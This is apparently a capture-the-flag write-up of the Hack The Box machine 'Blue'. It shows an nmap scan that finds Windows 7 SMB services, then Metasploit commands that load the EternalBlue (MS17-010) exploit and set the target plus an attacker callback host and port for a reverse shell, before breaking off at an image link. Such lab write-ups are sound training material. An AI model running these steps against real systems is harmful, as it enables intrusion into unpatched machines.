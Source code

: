 ## ------>> Blue <<-------

// We will start with nmap scan

    $ nmap -sV -A -Pn 10.10.10.40 -p-
-----

    Nmap scan report for 10.10.10.40
    Host is up (0.46s latency).
    Not shown: 65526 closed ports
    PORT      STATE SERVICE      VERSION
    135/tcp   open  msrpc        Microsoft Windows RPC
    139/tcp   open  netbios-ssn  Microsoft Windows netbios-ssn
    445/tcp   open  microsoft-ds Windows 7 Professional 7601 Service Pack 1 microsoft-ds (workgroup: WORKGROUP)
    49152/tcp open  msrpc        Microsoft Windows RPC
    49153/tcp open  msrpc        Microsoft Windows RPC
    49154/tcp open  msrpc        Microsoft Windows RPC
    49155/tcp open  msrpc        Microsoft Windows RPC
    49156/tcp open  msrpc        Microsoft Windows RPC
    49157/tcp open  msrpc        Microsoft Windows RPC
    Service Info: Host: HARIS-PC; OS: Windows; CPE: cpe:/o:microsoft:windows

    Host script results:
    |_clock-skew: mean: -8m45s, deviation: 34m37s, median: 11m12s
    | smb-os-discovery: 
    |   OS: Windows 7 Professional 7601 Service Pack 1 (Windows 7 Professional 6.1)
    |   OS CPE: cpe:/o:microsoft:windows_7::sp1:professional
    |   Computer name: haris-PC
    |   NetBIOS computer name: HARIS-PC\x00
    |   Workgroup: WORKGROUP\x00
    |_  System time: 2021-06-17T04:37:57+01:00
    | smb-security-mode: 
    |   account_used: guest
    |   authentication_level: user
    |   challenge_response: supported
    |_  message_signing: disabled (dangerous, but default)
    | smb2-security-mode: 
    |   2.02: 
    |_    Message signing enabled but not required
    | smb2-time: 
    |   date: 2021-06-17T03:38:00
    |_  start_date: 2021-06-17T03:22:12


// From the scan we can see the host OS[Operation System] is Windows 7 and there is SMBv2 service open

// The combinaniton of Win7 os and smb v2 its the requirments for the famous Eternal-Blue Exploit

// Lets open MetaSploit

    $ msfconsole
 -----
 
    msf6 > use exploit/windows/smb/ms17_010_eternalblue

    msf6 exploit(windows/smb/ms17_010_eternalblue) > set RHOSTS 10.10.10.40
    RHOSTS => 10.10.10.40
    msf6 exploit(windows/smb/ms17_010_eternalblue) > set LHOST 10.10.16.197
    LHOST => 10.10.16.197
    msf6 exploit(windows/smb/ms17_010_eternalblue) > set LPORT 1444
    LPORT => 1444
    msf6 exploit(windows/smb/ms17_010_eternalblue) > exploit

![Image 1](https://github.com/W0lfySec/HTB-Writeups/blob/main/Images/Blue/1.png)
